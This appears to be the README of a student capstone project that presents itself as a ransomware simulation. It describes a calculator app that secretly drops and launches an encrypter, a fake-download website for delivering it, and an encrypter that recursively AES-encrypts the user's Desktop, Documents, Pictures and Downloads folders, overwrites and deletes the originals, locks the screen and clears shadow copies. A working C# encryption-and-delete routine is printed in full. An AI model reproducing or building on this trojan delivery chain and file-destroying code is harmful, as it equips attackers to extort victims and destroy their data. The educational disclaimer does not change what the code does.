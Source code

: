 


```markdown
# Capstone Project: Ransomware Simulation & Delivery  
**Aimery Barrault | CSCI 460 – Capstone**

---

## 🚀 Project Overview

This repository contains a ransomware simulation for controlled, educational use:

- **CalculatorApp.exe** – a benign “calculator” UI that drops and launches the real payload  
- **CalculatorManager.exe** – the simulated ransomware encrypter/decrypter  
- **capstone-site/** – Next.js “fake download” website to deliver the payload  
- **payload.txt** & **base64-script.py** – utilities to embed and extract the encrypted dropper  

> **Do not deploy on production systems or without explicit authorization.**

---

## 📁 Folder Structure

```

.
├── CalculatorApp.exe
├── MainWindow\_CalculatorApp.cs
├── MainWindow\_Manager.cs
├── payload.txt
├── base64-script.py
├── capstone-site/
├── Midterm\_Presentation.pptx
├── Final\_Presentation.pptx


````

---

## ⚙️ Setting Up the Fake-Download Site

1. **Enter the site directory**  
   ```bash
   cd capstone-site
````

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Place your payload**
   Copy `CalculatorApp.exe` into:

   ```
   capstone-site/public/Downloads
   ```

4. **Run in development**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Open [http://localhost:3000](http://localhost:3000).


---

## 🖥️ CalculatorApp (Dropper UI)

**MainWindow\_CalculatorApp.cs** – WPF application that:

* Displays a standard calculator UI.
* On a trigger (e.g. backspace), reads Base64 string, decodes the real dropper, writes it to `%USERPROFILE%\Documents\CalculatorManager.exe`, launches it, and exits.


---

## 🔒 Ransomware Simulator

**MainWindow\_Manager.cs** – WPF application that:

1. **EncryptAll()** – Recursively encrypts user files under:

   * Desktop
   * Documents
   * Pictures
   * Downloads
   * Public Documents
2. **AES-128 CBC** with a fresh IV per file (prepended to ciphertext)
3. **SecureDelete()** – Overwrites original with zeroes, then deletes
4. **Countdown Timer** – 24-hour full-screen, top-most UI lockdown
5. **Password-protected Decrypt** – PBKDF2(SHA-256) verification, max 3 attempts
6. **SelfDestruct()** – Clears shadow copies, zero-wipes key & flag, removes Run-key, then exits

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    // encrypt files in this folder
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; } // skip unreadable folder

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        // securely overwrite & delete original
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>


---

## ✅ Windows Setup & Execution

1. Copy executables & scripts to a Windows 10 VM.
2. Run `CalculatorApp.exe` to drop & launch `CalculatorManager.exe`.
3. Observe `*.aes` files in Desktop/Documents/etc.
4. Enter the correct password to decrypt.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

MIT License. See [LICENSE.md](LICENSE.md) for full terms.

```
```
